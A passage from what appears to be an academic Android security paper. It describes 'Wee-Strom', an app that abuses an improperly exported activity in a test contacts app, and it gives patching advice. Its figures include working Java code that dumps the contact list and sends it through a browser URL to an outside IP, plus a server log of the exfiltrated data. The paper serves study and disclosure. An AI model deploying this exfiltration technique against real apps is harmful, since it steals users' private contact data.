\indent Next, the normal Java byte-code can be decompiled with a tool like JD-GUI\cite{jdgui}. This produces readable Java source code, that may not be able to be edited and recompiled given the challenges and inaccuracies of decompilation\cite{Miecznikowski:2002:DJB:647478.727938}. However, this is only used for analysis in this exploit. Figure~\ref{fig:ObfPopCont} includes the decompiled, obfuscated code. This is more difficult to read than the original source, but hard coded strings give away immediately that this it the \texttt{populateContacts} method. The vulnerability to dumping the entire list by searching with a string that doesn't tokenize can be found this way.

\section{Patching}
SAC can be fixed by correcting the vulnerabilities noted. First, the \texttt{FindActivity} should not be exported blindly. This prevents Wee-Strom from starting the activity, and getting a result. If it is necessary to expose this method then stronger authentication is necessary. One could verify the entire package name for example instead of only the class name. This would work because package names are unique identifiers\cite{Google:PackageName}, but has not been thoroughly researched for weaknesses.
\newline
\indent Finally, the method, \texttt{populateContacts} should be split up to obey clean code rules and only do one thing\cite{Martin:2008:CCH:1388398}. There should be one function to get all contacts used by the SAC \texttt{HomeActivity}, and another function to search for contacts used in the \texttt{FindActivity}. This would weaken the exploit because the attacker would need to know what names to search for in the contact list. This may be easier than you think, however, if another app or file leaks data that contains even partial contact names. For example, photos stored on the SD card with people named in the file name, or plain text sniffed from Intents.

\section{Conclusion}
Poorly written apps represent a significant threat to the Android ecosystem. No matter how well Android is secured, it cannot be easily protected from apps like SuperAwesomeContacts. Wee-Strom demonstrated an attack on SAC that did not violate any explicit rules in android, or raise any alerts. It could trivially be made almost invisible to the user. Wee-Strom successfully bypasses SAC's weak authentication in an improperly exported method, and exfiltrates stolen contacts data to a web server without using any permissions. It is also apparent that these vulnerabilities can be found in apps using common reverse engineering tools even if the programs were compiled with obfuscation programs like ProGuard. These loopholes can be closed by writing and validating good code\cite{Martin:2008:CCH:1388398, Google:LaunchChecklist}, and eliminating the transitive property of Android permissions that allows browsers to act as unwitting data sinks.

\begin{figure*}
  \begin{lstlisting}
Intent i = new Intent();
i.setComponent(new ComponentName("edu.cmu.wnss.funktastic.superawesomecontacts", "edu.cmu.wnss.funktastic.superawesomecontacts.FindActivity"));
i.setType("edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.intent.type");
i.putExtra("edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.findQueryString", " ");
startActivityForResult(i, 1);
\end{lstlisting}
\caption{Wee-Strom onCreate Method}
\label{fig:StromOnCreate}
\end{figure*}

\begin{figure*}
  \begin{lstlisting}
  @Override
  public void onActivityResult(int reqCode, int resCode, Intent data) {
      if (resCode == Activity.RESULT_OK) {
          String results = data.getStringExtra("edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.queryResults");
          textView.setText(results);
          try {
              startActivity(new Intent(Intent.ACTION_VIEW, Uri.parse("http://104.131.190.124/index.html?contacts=" + URLEncoder.encode(results, "UTF-8"))));
          } catch (UnsupportedEncodingException e) { 
              e.printStackTrace();
          }
      } else {
          textView.setText("Oops!");
      }
  }
  \end{lstlisting}
  \caption{Wee-Strom onActivityResult Method}
  \label{fig:StromOnResult}
\end{figure*}


\begin{figure*}
\begin{lstlisting}
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.maps.wee_strom" >

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:supportsRtl="true"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".HomeActivity"
            android:label="@string/app_name"
            android:theme="@style/AppTheme.NoActionBar" >
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
\end{lstlisting}
\caption{Wee-Strom AndroidManifest.xml}
\label{fig:WSManifest}
\end{figure*}


\begin{figure*}
\begin{lstlisting}
71.112.171.256 - - [05/Oct/2015:12:01:08 -0400] "GET /favicon.ico HTTP/1.1" 404 504 "http://104.131.190.124/index.html?contacts=SEARCH+RESULTS%0A2+Contacts+Found%0A%0AHomer+Simpson%0A%09%28555%29+888-9999+%5BMOBILE%5D%0AJames+T.+Kirk%0A%09%28555%29+777-1401+%5BMOBILE%5D%0A" "Mozilla/5.0 (Linux; Android 6.0; Android SDK built for x86 Build/MRA44C; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/44.0.2403.119 Mobile Safari/537.36"
\end{lstlisting}
\caption{Apache access.log of exfiltrated data}
\label{fig:accesslog}
\end{figure*}

\lstset{basicstyle=\small}
\begin{figure*}
\begin{lstlisting}
  private String a()
  {
    Map localMap = b();
    Cursor localCursor = this.d.query(ContactsContract.Contacts.CONTENT_URI, this.a, null, null, "display_name ASC");
    int j = localCursor.getColumnIndex("_id");
    int k = localCursor.getColumnIndex("display_name");
    int m = localCursor.getColumnIndex("has_phone_number");
    ...
    if (this.f != null) {
      localObject1 = this.f.trim().split("[\\*\\s]+");
      int n = localObject1.length;
      i = 0;
      while (i < n) {
        localObject2 = localObject1[i];
        if (!((String)localObject2).equals("")) {
          localArrayList.add(localObject2);
        }
        i += 1;
      }
      if (localArrayList.size() == 0) {
        this.f = null;
      }
    }
    if (this.f == null) {
      localArrayList.add("");
    }
    Object localObject1 = new StringBuilder();
    int i = 0;
    if (localCursor.moveToNext()) {
      localObject2 = localCursor.getString(k);
      if ((localObject2 == null) || (((String)localObject2).isEmpty())) {
        break label486;
      }
      Object localObject3 = localArrayList.iterator();
      while (((Iterator)localObject3).hasNext()) {
      	/* GET CONTACT INFO AND APPEND IT TO localStringBuilder */
      }
    }
    label486:
    for (;;) {
      break;
      localStringBuilder.append(i).append(" Contacts Found\n\n").append((CharSequence)localObject1);
      return localStringBuilder.toString();
    }
  }
\end{lstlisting}
\caption{ProGuard Obfuscated SuperAwesomeContact \texttt{populateContacts} Method}
\label{fig:ObfPopCont}
\end{figure*}



\clearpage
\newpage
% references section
% can use a bibliography generated by BibTeX as a .bbl file
% BibTeX documentation can be easily obtained at:
% http://www.ctan.org/tex-archive/biblio/bibtex/contrib/doc/
% The IEEEtran BibTeX style support page is at:
% http://www.michaelshell.org/tex/ieeetran/bibtex/
% argument is your BibTeX string definitions and bibliography database(s)
\bibliography{bilbo.bib}{}
\bibliographystyle{IEEEtran}
% that's all folks
\end{document}


